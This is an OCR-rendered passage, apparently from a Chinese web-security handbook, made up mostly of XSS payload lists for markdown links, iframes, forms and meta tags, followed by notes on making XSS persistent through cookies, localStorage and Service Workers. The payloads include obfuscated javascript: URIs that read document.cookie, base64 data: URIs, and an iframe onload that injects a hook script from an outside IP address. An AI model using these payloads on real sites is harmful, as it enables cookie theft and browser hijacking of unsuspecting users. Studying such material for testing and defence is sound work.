 ------------

3.2.9.11. markdown
```
```
[a](javascript:prompt(document.cookie)) 
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie)) <&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29> 
![a'"`onerror=prompt(document.cookie)](x) 
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie) 
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=) 
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)

```

------------

```
3.2.9.12. iframe
<iframe onload='     
var sc   = document.createElement("scr" + "ipt");     
sc.type  = "text/javascr" + "ipt";     
sc.src   = "http://1.2.3.4/js/hook.js";    document.body.appendChild(sc);     
' 
/>
<iframe src=javascript:alert(1)></iframe>
<iframe src="data:text/html,<iframe src=javascript:alert('M')></iframe>"></iframe>
<iframe src=data:text/html;base64,PGlmcmFtZSBzcmM9amF2YXNjcmlwdDphbGVydCgiTWFubml4Iik+PC9pZnJhbWU+></iframe>
<iframe srcdoc=<svg/o&#x6E;load&equals;alert&lpar;1)&gt;></iframe>
<iframe src=https://baidu.com width=1366 height=768></iframe>
<iframe src=javascript:alert(1) width=1366 height=768></iframe

```
```
3.2.9.13. form
<form action=javascript:alert(1)><input type=submit>
<form><button formaction=javascript:alert(1)>M
<form><input formaction=javascript:alert(1) type=submit value=M>
<form><input formaction=javascript:alert(1) type=image value=M>
<form><input formaction=javascript:alert(1) type=image src=1>
```


------------

```
3.2.9.14. meta
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">


------------

3.2.10. 持久化
3.2.10.1. 基于存储
有时候网站会将信息存储在Cookie或localStorage，而因为这些数据一般是网站主动存储的，很多时候没有对Cookie或localStorage中取出的数据做过滤，会直接将其取出并展示在页面中，甚至存了JSON格式的数据时，部分站点存在 eval(data) 之类的调用。因此当有一个XSS时，可以把payload写入其中，在对应条件下触发。  
在一些条件下，这种利用方式可能因为一些特殊字符造成问题，可以使用 String.fromCharCode 来绕过。
```


------------

3.2.10.2. Service Worker
Service Worker可以拦截http请求，起到类似本地代理的作用，故可以使用Service Worker Hook一些请求，在请求中返回攻击代码，以实现持久化攻击的目的。  
在Chrome中，可通过 chrome://inspect/#service-workers 来查看Service Worker的状态，并进行停止。
```